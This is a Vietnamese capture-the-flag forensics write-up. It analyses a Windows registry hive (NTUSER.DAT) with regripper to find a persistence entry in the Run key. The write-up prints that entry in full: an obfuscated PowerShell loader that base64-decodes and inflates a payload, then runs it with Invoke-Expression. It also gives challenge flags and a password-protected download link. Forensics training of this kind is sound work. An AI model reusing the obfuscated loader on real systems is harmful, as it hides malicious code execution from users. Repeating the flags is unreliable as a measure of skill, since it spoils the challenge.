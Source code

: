 Flag: `CHH{If_u_w4nt_1_will_aft3rnull_u}`

## Sổ đăng ký
### Mô tả
```
Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.

Tải challenge: https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)

Format Flag: CHH{XXX}
```
Nếu bạn không tìm thấy file trong drive nữa thì có thể tìm thấy [tại đây](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/Cookie%20Arena%202/source/arenas2-forensics-so-dang-ki%20(1).zip)

### Phân tích
Sau khi tải và giải nén thì mình nhận được file như sau

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/c36c95d7-6bbc-4385-918e-10f688beaabb)

Theo mình tìm hiểu, thì file `NTUSER.DAT` là một tệp tin định dạng registry của hệ điều hành MS Windows. Tệp tin này chứa cơ sở dữ liệu registry của một người dùng cụ thể trên hệ thống. Lưu trữ thông tin cấu hình, cài đặt và các thiết lập của hệ thống và ứng dụng.

Mình có biết một công cụ tên là `regripper`. Dùng để trích xuất thông tin từ các tệp có định dạng Registry thông qua các plugin Perl.
Cài đặt: `sudo apt install regripper`
tham khảo: https://www.kali.org/tools/regripper

Dựa vào mô tả thì mình đoán, file này có Persistent rồi. Và liên tưởng đầu tien của mình là `Software\Microsoft\Windows\CurrentVersion\Run` 😄 mình sẽ kiểm tra chỗ đó. Có một chall trên Hackthebox giống giống như này. 

### Solution
Chạy lệnh: 
`sudo regripper -r NTUSER.DAT -a` 

Với `-a` hoặc `-aT` nhé. Để tự động run các plugins.

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/61d1be56-8239-4e96-a6fc-7230e2d940b8)

Kết quả đúng như mình đoán, có một đoạn mã được thực thi ở đây, trông rất khả nghi:

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/53dcbfea-c90b-4994-9cc2-b92f18ed3c19)

Đoạn mã này gồm:
```
(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon
```
Mình tìm hiểu một lúc: đoạn mã thực hiện giải mã một chuỗi ở định dạng base64 và nén bằng thuật toán Deflate.
